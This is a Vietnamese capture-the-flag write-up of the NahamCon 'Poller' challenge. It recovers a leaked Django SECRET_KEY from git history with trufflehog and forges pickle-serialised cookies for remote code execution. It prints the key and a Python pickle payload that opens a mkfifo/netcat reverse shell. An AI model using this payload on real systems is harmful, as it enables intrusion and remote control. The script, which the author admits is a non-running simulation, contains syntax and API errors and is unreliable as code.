 # nahamcon CTF - Poller

## Description
.....


## Solution

### Review

![theme_poller](https://user-images.githubusercontent.com/71699412/167298257-bf1abc96-05fb-4437-a2b5-2a23dcc696b7.jpg)

Chall cho 1 website có các chứng năng đăng kí, đăng nhập. Sau khi login thì được redirect vào page để bình chọn poll, không có gì nhiều cho đến khi inspect source code ta tìm được đây là 1 open source code project trên github.

![client)_src_code](https://user-images.githubusercontent.com/71699412/167298273-ad5042a5-bb9c-4840-b1a5-5d1b65f357ae.jpg)

https://github.com/congon4tor/poller


git clone về review source-code tìm vulnerablity, đây là python web app được build trên `django`, review 1 hồi thì không có tìm được cái gì là sai sai, cũng không thấy mặt mũi flag, có lẽ mục tiêu là RCE. Vào lại git repository tìm đến mục `History` xem có security issue nào được chỉnh sửa ở history không.
 
 ![history](https://user-images.githubusercontent.com/71699412/167298278-f3a78147-f331-40e3-a3e1-aa46de2c0720.jpg)

Ta tìm thấy lỗi sensitive data expose SECRET_KEY, với SECRET_KEY này ta có thể sign cookies và làm nhiều thứ khác....

![pickcle_src](https://user-images.githubusercontent.com/71699412/167298285-8b6c4cb9-787e-4347-94ff-c675c9912f14.jpg)

Ngoài ra app này dùng pickle để unserialize thẳng từ cookies, rõ ràng đây là lỗi object injection, một lỗi nghiêm trọng có thể dẫn đến RCE, read files,...

### Exploit
Sau khi có SECRET_KEY ta thử tự serialize RCE payload nhưng fail, thử verify bằng SECRET_KEY với cookies của web app thì fail, rõ ràng đây không phải SECRET_KEY đúng, đừng láu táu.

Ta dùng đến tool `trufflehog`, 1 tool giúp scan các app phổ biến tìm senstive data expose như SECRET_KEY hay api key,...

src: https://github.com/trufflesecurity/trufflehog

Sau khi install, can git repository tìm sensitive data với command:
```bash
sudo docker run -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest git https://github.com/congon4tor/poller --debug --trace
```
Ta được results:

![secret_key_results](https://user-images.githubusercontent.com/71699412/167298292-933eefe3-2d96-43c1-9f67-20a69895aec4.jpg)

Ta tìm thấy được 1 SECRET_KEY khác với cái vừa tìm được:
```bash
SECRET_KEY=77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!
````

Thử dùng cái này verify cookies thì success, rõ ràng đây chính là SECRET_KEY của app và ta có thể dùng nó để tự sign cookies.

Như đã nói từ trước, cookies của app này là 1 serialized string object được serialize bằng python pickle module và được unserialize 1 cách insecure, ta sẽ tấn công object injection để đạt được RCE.

python scripts:
```python
import pickle
import os


class RCE:
    def __reduce__(self):
        # import os
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


def verify(cookies, SECRET_KEY, salt):
    try: # mô phỏng thôi, cứ để nó dump error cho dễ debug
        results = loads(cookies, key=SECRET_KEY, serializer=PickleSerializer, salt=salt)
        return "Horray, it's a valid SECRET_KEY, decoded cookies: " + results
    except:
        return 'It\'s not a valid SECRET_KEY'

def sign(SECRET_KEY, salt);
    content['cookies'] = RCE()
    cookies = pickle.dumps(content, key=SECRET_KEY, serializer=PickleSerializer, salt=salt, compress=True)

    return cookies


SECRET_KEY = "77m6p#v&(wk_s2+n5na-bqe!m)^zu)9typ#0c&@qd%8o6!"
salt = "django.contrib.sessions.backends.signed_cookies" # default salt thôi
app_cookies = 'UNKNOWN'

if __name__ == '__main__':
    print(verify(app_cookies, SECRET_KEY, salt))
    print(sign(SECRET_KEY, salt))
    
# Code nhằm mục đích mô phỏng vì chall đã đóng, khá chắc là không chạy được, link solution: https://www.youtube.com/watch?v=9j74Wi6daEU
```
Mở tai lên(netcat) và nghe reverse shell dội về thôi!!

**Flag**: ``

